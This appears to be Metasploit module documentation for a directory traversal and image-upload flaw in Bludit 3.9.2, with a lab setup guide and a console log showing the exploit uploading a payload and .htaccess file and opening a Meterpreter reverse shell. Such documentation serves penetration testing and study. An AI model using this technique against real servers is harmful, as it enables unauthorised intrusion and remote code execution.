 # Bludit Directory Traversal Image File Upload Vulnerability

## Description

This module exploits a vulnerability in Bludit: A simple, fast, "secure", flat-file CMS. A vulnerability was found by [christasa](https://github.com/christasa) in the image uploading feature. A remote user could abuse the `uuid` parameter in the upload feature in order to save a malicious payload anywhere onto the server, and then use a custom `.htaccess` file to bypass the file extension check, and finally get remote code execution.

## Setup

1. Set up a Ubuntu box with Apache, PHP, and MySQL.
2. Download: https://www.bludit.com/releases/bludit-3-9-2.zip
3. Follow the installation guide [here](https://docs.bludit.com/en/getting-started/installation-guide). Make sure your Apache server sets `AllowOverride All` in /etc/apache2/apache2.conf.

## Scenarios

```
msf exploit(linux/http/bludit_upload_images_exec) > check
[*] 172.16.135.162:80 - The service is running, but could not be validated.
msf exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 172.16.135.1:4444 
[+] Logged in as: admin
[*] Retrieving UUID...
[*] Uploading qGkVsmahdK.png...
[*] Uploading .htaccess...
[*] Executing qGkVsmahdK.png...
[*] Sending stage (38288 bytes) to 172.16.135.162
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.162:47086) at 2019-11-05 08:54:34 -0600
[+] Deleted .htaccess
```

